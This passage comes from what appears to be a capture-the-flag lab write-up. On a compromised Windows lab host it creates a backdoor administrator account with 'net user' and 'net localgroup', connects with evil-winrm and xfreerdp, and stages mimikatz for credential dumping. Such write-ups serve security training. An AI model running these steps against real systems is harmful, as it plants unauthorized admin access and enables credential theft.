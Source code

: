 From the earlier port scan, **3389** and **5985** are also open. 3389 is
used to enable users to access remote computers and 5985 is the default
port for Windows Remote Management. I find evil-winrm to be easier and
more stable than a simple netcat shell, so I will need to create a new
account in the Administrators group since I don’t have credentials.

In an interactive shell through netcat, the command to add a user is:

`net user l15t3nr l15t3nr /add` 

Then the new user must be added to the Administrators and “Remote
Management Users” groups
```
net localgroup Administrators l15t3nr /add
net localgroup “Remote Management Users” l15t3nr /add
```

![alt-18](/assets/img/wreath-writeup/user_add.png)

Now I can connect to a remote management shell with evil-winrm

`evil-winrm –u l15t3nr –p l15t3nr -i 10.200.73.150`

![alt-19](/assets/img/wreath-writeup/evil-winrm-l15t3nr.png)

Next, I'll be connecting with RDP to get an interactive GUI session and
sharing the resource to mimikatz in order to use the tool.

`xfreerdp /v:10.200.73.150 /u:l15t3nr /p:l15t3nr +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`
